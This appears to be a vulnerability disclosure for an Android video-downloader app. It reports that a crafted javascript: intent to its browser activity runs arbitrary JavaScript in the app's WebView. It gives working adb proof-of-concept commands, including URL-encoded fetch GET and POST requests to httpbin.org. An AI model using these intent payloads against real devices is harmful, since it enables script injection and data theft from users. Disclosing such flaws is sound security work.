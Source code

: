 An arbitrary JavaScript execution vulnerability was discovered in the `com.videodownload.browser.videodownloader` application. This vulnerability allows an attacker to execute arbitrary JavaScript code within the context of the application's WebView by crafting a specially formatted intent.

Package: `com.videodownload.browser.videodownloader`

Activity: `acr.browser.lightning.DefaultBrowserActivity`

Version:20-30.05.24

**Proof of Concept**:

1. **Basic JavaScript Alert Execution**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d 'javascript:alert(1)' com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
     ```

2. **Basic Fetch GET Request**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d "javascript:fetch%28%22https%3A%2F%2Fhttpbin.org%2Fget%22%29.then%28response%20%3D%3E%20response.text%28%29%29.then%28data%20%3D%3E%20alert%28%22Success%3A%20%22%20%2B%20data%29%29.catch%28error%20%3D%3E%20alert%28%22Fetch%20error%3A%20%22%20%2B%20error.message%29%29%3B" com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
     ```

3. **Basic Fetch POST Request**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d "javascript:fetch%28%22https%3A%2F%2Fhttpbin.org%2Fpost%22%2C%20%7Bmethod%3A%20%22POST%22%2C%20headers%3A%20%7B%22Content-Type%22%3A%20%22application%2Fjson%22%7D%2C%20body%3A%20JSON.stringify%28%7Bkey%3A%20%22value%22%7D%29%7D%29.then%28response%20%3D%3E%20response.json%28%29%29.then%28data%20%3D%3E%20alert%28%22Success%3A%20%22%20%2B%20JSON.stringify%28data%29%29%29.catch%28error%20%3D%3E%20alert%28%22Fetch%20error%3A%20%22%20%2B%20error.message%29%29%3B" com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
     ```
```

**Impact**:
This vulnerability allows an attacker to execute arbitrary JavaScript code within the app's WebView, which can lead to various attacks, including:

- Performing unauthorized actions on behalf of the user.
- Injecting malicious content into the WebView.


Best regards,

Edward
